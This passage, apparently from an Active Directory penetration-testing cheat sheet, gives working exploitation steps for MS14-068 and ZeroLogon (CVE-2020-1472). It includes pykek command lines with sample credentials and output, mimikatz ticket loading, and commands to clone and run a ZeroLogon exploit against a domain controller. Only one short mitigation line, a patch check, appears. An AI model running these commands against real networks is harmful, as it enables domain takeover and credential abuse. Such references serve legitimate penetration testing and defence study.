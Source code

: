 ```powershell
# Alternative download: https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS14-068/pykek
$ git clone https://github.com/SecWiki/windows-kernel-exploits
$ python ./ms14-068.py -u <userName>@<domainName> -s <userSid> -d <domainControlerAddr> -p <clearPassword>
$ python ./ms14-068.py -u darthsidious@lab.adsecurity.org -p TheEmperor99! -s S-1-5-21-1473643419-774954089-2222329127-1110 -d adsdc02.lab.adsecurity.org
$ python ./ms14-068.py -u john.smith@pwn3d.local -s S-1-5-21-2923581646-3335815371-2872905324-1107 -d 192.168.115.10
$ python ms14-068.py -u user01@metasploitable.local -d msfdc01.metasploitable.local -p Password1 -s S-1-5-21-2928836948-3642677517-2073454066
-1105
  [+] Building AS-REQ for msfdc01.metasploitable.local... Done!
  [+] Sending AS-REQ to msfdc01.metasploitable.local... Done!
  [+] Receiving AS-REP from msfdc01.metasploitable.local... Done!
  [+] Parsing AS-REP from msfdc01.metasploitable.local... Done!
  [+] Building TGS-REQ for msfdc01.metasploitable.local... Done!
  [+] Sending TGS-REQ to msfdc01.metasploitable.local... Done!
  [+] Receiving TGS-REP from msfdc01.metasploitable.local... Done!
  [+] Parsing TGS-REP from msfdc01.metasploitable.local... Done!
  [+] Creating ccache file 'TGT_user01@metasploitable.local.ccache'... Done!
```

Then use `mimikatz` to load the ticket.

```powershell
mimikatz.exe "kerberos::ptc c:\temp\TGT_darthsidious@lab.adsecurity.org.ccache"
```


#### Mitigations

* Ensure the DCPromo process includes a patch QA step before running DCPromo that checks for installation of KB3011780. The quick and easy way to perform this check is with PowerShell: get-hotfix 3011780


### ZeroLogon

> CVE-2020-1472

White Paper from Secura : https://www.secura.com/pathtoimg.php?id=2055

Exploit steps from the white paper

1. Spoofing the client credential
2. Disabling signing and sealing
3. Spoofing a call
4. Changing a computer's AD password to null
5. From password change to domain admin
6. :warning: reset the computer's AD password in a proper way to avoid any Deny of Service

* `cve-2020-1472-exploit.py` - Python script from [dirkjanm](https://github.com/dirkjanm)
  ```powershell
	# Check (https://github.com/SecuraBV/CVE-2020-1472)
	proxychains python3 zerologon_tester.py DC01 172.16.1.5
	
  $ git clone https://github.com/dirkjanm/CVE-2020-1472.git

  # Activate a virtual env to install impacket
  $ python3 -m venv venv
  $ source venv/bin/activate
  $ pip3 install .
	
  # Exploit the CVE (https://github.com/dirkjanm/CVE-2020-1472/blob/master/cve-2020-1472-exploit.py)
  proxychains python3 cve-2020-1472-exploit.py DC01 172.16.1.5

  ```
